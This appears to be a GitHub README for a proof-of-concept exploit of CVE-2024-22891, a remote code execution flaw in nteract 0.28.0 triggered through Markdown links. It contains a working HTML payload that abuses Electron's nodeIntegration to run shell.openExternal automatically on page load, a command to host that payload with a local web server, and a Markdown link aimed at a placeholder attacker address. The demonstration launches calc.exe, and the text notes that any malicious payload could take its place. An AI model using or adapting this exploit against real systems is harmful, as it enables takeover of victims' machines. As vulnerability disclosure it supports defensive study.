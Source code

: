 # neteract PoC
A Proof-Of-Concept for CVE-2024-22891 vulnerability. <br><br>
nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution.

In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.
As a PoC there is a python file that automates the process. 
---------------------------------------

#### 1.Vunerability Overview:
 * Vulnerability Subject: Markdown link RCE
 * Vulnerability Type: Other: Open Redirect
 * Manifestation of the Issue: Electron Webview
 * Affected Component: markdown
 * Attack Type: Remote Code Execution
 * Attack Vectors: To exploit the vulnerability, someone must click on the link or access the shared project's link.
 * Reserved CVE Number: CVE-2024-22891 
---------------------------------------

#### 2. Vulnerability Cause:
* nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution (because nodeIntegration in webPreferences is true).

* Exploit explain
  * When generating links through MarkDown within the application, it creates a WebView via Electron, allowing external access to the link. Consequently, an attacker can achieve Remote Code Execution (RCE) by connecting to the link leading to the attacker's server.

Proof-of-concept (POC)
----------------------
* Step 1) Attacker make server to Source code for launching a calc.exe using openExternal() function.
```html
<html>
<head>
    <title>jruru Link</title>
</head>
<body>
    <a id="jruruLink">jruru Link</a>

    <script>
         // Script function definition
        function openExternal() {
            try {
                const { shell } = require('electron');
                shell.openExternal('file:C:/Windows/System32/calc.exe');
            } catch(e) {
                alert('JRURU - External link cannot be opened.');
                console.error(e);
            }
        }
        // Automatically execute openExternal function after the page is loaded
        document.addEventListener('DOMContentLoaded', function() {
            openExternal();
        });
    </script>
</body>
</html>
```
**Note:** ※ If you want to test it quickly, create a server on the attacker's PC with the following code.

```py
$ python -m http.server 80
```

* Step 2) Execute the nteract application on the victim's system and create a Markdown link, or share the attacker's ipynb file as an example code. Then, execute calc.exe.
```markdown
[Read This] (http://[attcker_adress]/shard_data.html)
```
![neteract](https://github.com/QnA4u/CVE/assets/131337101/f0dc7882-9376-4cd6-8432-241283d200b7)
![nteract2](https://github.com/QnA4u/CVE/assets/131337101/8b596f50-6c4e-40b5-a835-4dee96517314)

---------------------------------------

### 3. Additional Information
When executing a .ipynb file through file sharing, be cautious as the link may not be visible.This calc.exe could have been any malicious payload local or remote which could have given the attacker entire access to the victim’s system. 

